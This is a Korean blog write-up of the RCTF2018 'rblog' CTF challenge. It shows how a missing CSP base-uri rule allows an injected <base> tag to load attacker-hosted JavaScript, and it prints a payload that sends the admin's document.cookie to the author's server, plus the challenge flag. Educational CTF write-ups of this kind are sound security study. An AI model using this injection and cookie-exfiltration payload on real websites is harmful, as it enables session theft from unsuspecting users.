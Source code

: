```yaml
---
layout: post
title: RCTF2018 rblog Write up
excerpt_separator: <!--more-->
tags:
  - Write-up
  - CTF
  - RCTF2018
  - ccoma
---
```


`rblog`는 `RCTF 2018`에 출제되었던 XSS 문제인데, 대회 기간에는 풀이하지 못했다가 Write-up이 올라온 후 풀어보게 되었다.  

문제 정보는 아래와 같다.  

<!--more-->

```
get `document.cookie`
http://rblog.2018.teamrois.cn
```

### 1. 문제 분석

문제 링크에 접속하면 아래와 같은 페이지를 확인할 수 있다.  

![]({{ site.baseurl }}/images/ccoma/rblog-writeup/rblog_01.PNG)  

제목과 내용을 적고, 스타일을 적용하거나 이미지를 업로드할 수 있는 기능이 있다.  

또한 `최신 버전의 Chrome을 사용중인 admin`에게 신고할 수도 있다.  

admin에게 신고할 때에는 특정 값을 입력해야 하는데, 이는 내가 업로드 한 블로그의 주소라는 것을 알 수 있다.  

![]({{ site.baseurl }}/images/ccoma/rblog-writeup/rblog_02.PNG)  

![]({{ site.baseurl }}/images/ccoma/rblog-writeup/rblog_03.PNG)  

### 2. 취약점 찾기

문제의 설명에서 `document.cookie`를 얻으라고 했으므로 `XSS` 문제인 것은 알 수 있다.  

때문에 어떤 부분에서 `XSS`가 가능한지 알기 위해 `title`, `content`, `style`을 적용하는 부분에 아래와 같이 script 코드를 삽입 해 보았다.  

![]({{ site.baseurl }}/images/ccoma/rblog-writeup/rblog_04.PNG)  

그 결과, `title` 부분에서 `script`가 정상적으로 삽입되는 것을 확인할 수 있었지만, 실행되지는 않았다.  

![]({{ site.baseurl }}/images/ccoma/rblog-writeup/rblog_05.PNG)  

이 문제에도 역시나 `CSP`가 걸려있었다.  

`XSS` 공격은 해야하는데, `CSP`가 걸려 있어서 어떻게 풀이해야 하나 싶었는데, 다른 사람들의 write-up을 보니 `Google`에서 만든 [CSP Evaluator](https://csp-evaluator.withgoogle.com/)를 통해 특정 사이트에 적용 된 CSP 정보를 확인할 수 있었다.  

문제의 URL을 넣고 확인 해 보니 `base-uri`에 대한 보호가 적용되어 있지 않았다.  

![]({{ site.baseurl }}/images/ccoma/rblog-writeup/rblog_06.PNG)  

즉, `<base>`라는 태그를 사용하여 소스코드 상에서 사용된 상대 경로의 기준이 될 경로를 지정할 수 있다.  

만약 소스코드에서 css 파일이나 js 파일 등을 참조할 때 `./css/style.css`라는 상대 경로가 있을 경우, `<base>` 태그를 이용해 따로 경로를 설정해 주지 않는 한 `현재 페이지의 경로를 기준`으로 `style.css`를 찾아간다.  

그런데 만약 `<base>` 태그를 이용 해 `<base href="http://www.test.com/">`와 같이 기준 경로를 바꾸어 줄 경우, `설정해 준 경로를 기준`으로 파일을 찾아가게 된다.  

따라서 `<base>` 태그를 이용 해 기준 경로를 바꾸어 준다면, 문제의 소스코드 내에서 사용하는 `js`나 `css`를 내가 원하는 파일로 바꾸어 실행시킬 수 있다.  

우리는 `document.cookie`를 얻어야 하므로, `js` 파일을 사용하는 부분을 찾아보았다.  

다시 소스코드를 살펴보니 내가 업로드 한 블로그 글의 하단에서 아래와 같이 `js` 파일을 실행시키는 것을 확인할 수 있었다.  

![]({{ site.baseurl }}/images/ccoma/rblog-writeup/rblog_07.PNG)  

따라서 `<base>` 태그를 이용 해 기준 경로를 바꾸어 준 후, 바꾼 경로에 `/assets/js/jquery.min.js` 파일을 만든다면, 내가 원하는 코드를 실행시킬 수 있게 된다.  

### 3. 문제 풀이

나는 내 서버와 도메인을 갖고 있기 때문에 내 서버를 사용했다.  

내 서버에 `/assets/js/` 디렉토리 아래에 `jquery.min.js` 파일을 생성한 후, 아래와 같이 소스코드를 구현하였다.  

```js
location.href = "http://ccoma.me/?" + document.cookie;
```

이 후 `title`에 `<base href="http://ccoma.me/"/>` 를 넣어 글을 올린다면 기준 경로가 내 도메인이 되어 `<script nonce="af8d8b049007ffdddf9d4104295d126e" src="/assets/js/jquery.min.js"></script>`는 실제로는 `http://ccoma.me/assets/js/jquery.min/js`를 실행하게 된다.  

이 때, 해당 경로에는 `location.href = "http://ccoma.me/?" + document.cookie;`가 있으므로 `document.cookie`의 값을 인자로 해 해당 도메인에 접근하게 될 것이다.  

글을 업로드 한 후에 해당 글의 경로를 `admin`에게 신고하면 `admin`이 해당 글에 접근할 것이며, 결론적으로 `admin`의 `cookie`를 인자로 해당 도메인에 다시 접근하게 된다.  

먼저 아래와 같이 글을 올려 보았다.  

![]({{ site.baseurl }}/images/ccoma/rblog-writeup/rblog_08.PNG)  

`jquery.min.js`에는 `location.href`가 구현되어 있기 때문에 내 서버로 리다이렉트 될 것이다.  

때문에 `burp suite`를 이용 해 `Response`를 잡아 블로그 글의 주소를 캡쳐 했다.  

![]({{ site.baseurl }}/images/ccoma/rblog-writeup/rblog_09.PNG)  

이 후 해당 글의 링크를 `admin`에게 보내주었다.  

![]({{ site.baseurl }}/images/ccoma/rblog-writeup/rblog_10.PNG)  

![]({{ site.baseurl }}/images/ccoma/rblog-writeup/rblog_11.PNG)  

그러면 `admin`이 내 서버로 접근하게 되는데, 이 때 GET 방식으로 cookie가 넘어오게 되므로 이를 확인하기 위해 `access.log`를 확인 해 보았다.  

```
tail -f /var/log/apache2/access.log
```

전송 후에 짧게는 몇 초, 길게는 2분 정도를 기다리면 아래와 같이 flag가 함께 전송된 것을 확인할 수 있다.  

![]({{ site.baseurl }}/images/ccoma/rblog-writeup/rblog_12.PNG)  

```
FLAG : RCTF{why_the_heck_no_mimetype_for_webp_in_apache2_in_8012}
```